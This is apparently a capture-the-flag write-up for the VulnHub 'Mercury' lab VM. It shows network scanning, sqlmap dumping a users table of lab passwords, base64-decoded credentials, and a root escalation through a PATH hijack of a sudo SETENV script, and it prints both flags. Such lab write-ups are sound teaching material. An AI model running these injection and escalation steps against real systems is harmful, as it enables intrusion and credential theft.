









# The Planets: Mercury
<p align="left">
  
</p>

## Table of Contents
- [Url](#url)
- [Description](#description)
- [Walkthrough](#walkthrough)
  - [Network scan](#network-scan)
  - [Webpage access](#webpage-access)
  - [Gobuster](#gobuster)
  - [SqlMap](#sqlmap)
    - [User flag](#user-flag)
  - [SSH access](#ssh-access)
  - [`check_syslog.sh` file](#check_syslogsh-file)
    - [Root flag](#root-flag)
- [Flags](#flags)

## Url
https://www.vulnhub.com/entry/the-planets-mercury,544/

## Description
Mercury is an easier box, with no bruteforcing required. There are two flags on the box: a user and root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware. Any questions/issues or feedback please email me at: SirFlash at protonmail.com

## Walkthrough
### Network scan

First, I decided to scan the local LAN using the command ```sudo arp-scan -l```
```
┌─[parrot@parrot]─[~]
└──╼ $sudo arp-scan -l
(...)
192.168.100.152	08:00:27:3f:dc:23	PCS Systemtechnik GmbH
(...)

```

After finding the IP address I was interested in, i.e. ```192.168.100.152```, I decided to use the nmap tool to see if any ports were open and what services were running (along with their version). So I ran ```nmap -sV -sC 192.168.100.152```
```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $nmap -sV -sC 192.168.100.152
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-29 07:50 CEST
Nmap scan report for 192.168.100.152
Host is up (0.00026s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA)
|   256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA)
|_  256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
(...)
```

In the result I got, I found an information that the ports 8080 and 22 are open.

### Webpage access

I was able to successfully open page in the browser:

* ```http://192.168.100.152:8080```
<p align="center">
  
</p>

### Gobuster

The next step was to scan the sites to find if there were any files or directories available from the browser. To do this, I used the ````gobuster``` tool:
```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $gobuster dir -u http://192.168.100.152:8080 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.100.152:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/robots.txt           (Status: 200) [Size: 26]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

A scan showed that `robots.txt` file was available. So I decided to check the contents of the `robots.txt` file in hopes of finding helpful information.

<p align="center">
  
</p>

The file was blank. In that case I decided to define some path which will not exist to check if error message will tell me something helpful. It worker. I foud out there is a `mercuryfacts/` directory

<p align="center">
  
</p>

After entering `http://192.168.100.152:8080/mercuryfacts/`, the page looked as follows:

<p align="center">
  
</p>

With that, I also discovered two other sites, namely `http://192.168.100.152:8080/mercuryfacts/todo` and `http://192.168.100.152:8080/mercuryfacts/1`. I decided to check out what is hidden in them. The former provided me with some important information, namely:
- in the database there is a table `users`,
- direct `mysql` calls are executed,
- the database is `mysql`.

<p align="center">
  
</p>

The other page showed facts about the planet:
<p align="center">
  
</p>

I noticed that in the URL the fact number is given. The information itself also states `Fact id: 1`. I decided to check if I could change the facts manually in the url. It turned out that by all means yes!

<p align="center">
  
</p>

Thus, it turned out that the site was vulnerable to SQL Injection. In this case, I decided to use the `sqlmap` tool.

### SqlMap

The first step I took was to check if the vulnerability exists and what databases are available.

`sqlmap -u http://192.168.100.152:8080/mercuryfacts/ --dbs --batch`

<p align="center">
  
</p>

By performing this scan, I learned about the existence of the `mercury` database. The next step was to take a dump of the tables that are in the `mercury` database.

`sqlmap -u http://192.168.100.152:8080/mercuryfacts/ -D mercury --dump-all --batch`

There are two tables in the database - `facts` and `users` (confirming that the table exists). Reviewing the data dump of the tables, I found out that the users table contains data for logging in several users:

```
id,password,username
1,johnny1987,john
2,lovemykids111,laura
3,lovemybeer111,sam
4,mercuryisthesizeof0.056Earths,webmaster
```

Knowing that port 22 was open, I tried logging in to the `webmaster` user:

### SSH access
```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $ssh webmaster@192.168.100.152
(...)
webmaster@mercury:~$ 
```

#### User flag
We did it! After logging in to `webmaster` we managed to find the first flag - `user_flag`.

```
webmaster@mercury:~$ ls
mercury_proj  user_flag.txt
webmaster@mercury:~$ cat user_flag.txt 
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

I decided to look around the system. There I found a file `mercury_proj/notes.txt` with data on other accounts:
```
webmaster@mercury:~$ ls mercury_proj/
db.sqlite3  manage.py  mercury_facts  mercury_index  mercury_proj  notes.txt
webmaster@mercury:~$ cat mercury_proj/notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

These are most likely username and password encoded with base64 (as indicated by the `==` at the end of the string). I simply decoded them thus obtaining the credentials below:
decode:
```
linuxmaster:mercurymeandiameteris4880km
webmaster:mercuryisthesizeof0.056Earths
```

With this, I logged on to the user `linumaster`.
```
webmaster@mercury:~$ su linuxmaster
Password: 
linuxmaster@mercury:/home/webmaster$
```

Later I found that it was worth checking what permissions `sudo` user `linuxmaster` has.
```
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

This result means that the `linuxmaster` user has very limited sudo privileges - he can only run one specific command with `root` privileges.
- `SETENV`: - means that the user can set environment variables (e.g. `ENV=...`) while running this command.
- `/usr/bin/check_syslog.sh` - this is the only script that `linuxmaster` can run via `sudo`.

### `check_syslog.sh` file
I found that it was a good idea to check the contents of the `check_syslog.sh` file. It does a very simple thing - it shows the last 10 lines from the `/var/log/syslog` file.

```
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```

I decided to look for information on the log file. I found out that the `syslog` script is executed with environment variables intact, which could let an attacker manipulate the `PATH` variable to run arbitrary commands. This makes it possible to exploit the `PATH` variable for malicious purposes.

To take advantage of this vulnerability, I performed the following steps:

1. I created a symbolic link (alias) named `tail` that points to `/usr/bin/vim`: `ln -s /usr/bin/vim tail`
2. I modified the PATH environment variable on the system: `export PATH=$(pwd):$PATH`
3. I executed the `/usr/bin/check_syslog.sh` script as the `root` user, with the `PATH` environment variable preserved, which means that the `PATH` variable of the user (not the `root` user) is preserved when executing the command: `sudo --preserve-env=PATH /usr/bin/check_syslog.sh`

After executing the three commands above, the `vim` editor will open. Then, I typed `:!/bin/bash` and exited `vim`.

<p align="center">
  
</p>

<p align="center">
  
</p>

#### Root flag
The root flag was available as soon as you logged into `root`.

```
root@mercury:~# ls
root_flag.txt

root@mercury:~# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```

# Flags
- user_flag: `user_flag_8339915c9a454657bd60ee58776f4ccd`
- root_flag: `root_flag_69426d9fda579afbffd9c2d47ca31d90`
